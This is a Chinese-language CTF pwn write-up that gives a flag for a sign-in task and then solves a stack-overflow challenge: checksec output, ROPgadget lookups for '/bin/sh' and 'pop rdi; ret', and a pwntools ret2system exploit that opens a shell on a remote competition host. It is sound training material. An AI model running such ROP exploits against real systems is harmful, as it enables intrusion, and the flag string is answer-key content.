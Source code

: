 ### Signin

nc连接直接拿flag（怎么感觉前面说了一次）

``` 
SSHCTF{wELC0ME_70_7h3_WOr1D_of_PwN_858132a91ebd}
```

### 最后的一面以遗憾结尾

1. checksec，NX enabled

   ``` 
   # checksec last
       Arch:       amd64-64-little
       RELRO:      Partial RELRO
       Stack:      No canary found
       NX:         NX enabled
       PIE:        No PIE (0x400000)
       SHSTK:      Enabled
       IBT:        Enabled
       Stripped:   No
   ```

   用ida打开，发现有 `result()` 执行了 `system("echo \"I want to say I love you.\"")`，但并不是`/bin/sh`

   利用ropgadget查看是否存在/bin/sh

   ``` 
   ROPgadget --binary last --string '/bin/sh'
   Strings information
   ============================================================
   0x0000000000404050 : /bin/sh
   ```

   确实存在，且ida内找到_system的地址为：

   ``` 
   .plt.sec:0000000000401090 ; int system(const char *command)
   ```

   因为是64位，函数的参数传递使用寄存器，第一个参数在rdi里面，所以先用 pop rdi ret 把 `/bin/sh` 字符串的地址放在rdi然后调用system函数

   同样用ropgadget查看pop rdi和ret的地址

   ``` 
   # ROPgadget --binary last | grep "pop rdi"  
   0x0000000000401241 : pop rdi ; ret
   
   # ROPgadget --binary last | grep "ret"    
   0x000000000040101a : ret
   ```

2. exp，直接返回执行system函数，获取到shell

   ``` python
   from pwn import *
   context.log_level = 'debug'
   context.binary = 'last'
   #sh = process('./last')
   sh = remote('210.44.150.15', 41158)
   elf = ELF('./last')
   system_plt = elf.plt['system']
   pop_rdi = 0x401241
   ret = 0x40101a
   binsh_addr=0x404050
   offset = 0x10 + 8
   payload = b'a' * offset + p64(pop_rdi) + p64(binsh_addr) + p64(ret) + p64(system_plt)
   sh.recv()
   sh.sendline(payload)
   sh.interactive()
   ```